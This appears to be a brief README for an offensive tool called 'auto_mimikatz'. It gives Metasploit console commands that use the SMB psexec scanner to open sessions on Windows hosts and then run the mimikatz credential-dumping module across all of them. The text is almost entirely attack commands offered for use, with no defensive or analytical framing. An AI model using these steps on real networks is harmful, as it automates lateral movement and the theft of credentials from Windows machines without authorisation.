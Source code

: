 auto_mimikatz
=============

# How to use
load post_auto
use auxiliary/scanner/smb/psexec_scanner
# Wait session
multi_post -m post/windows/gather/mimikatz -s all
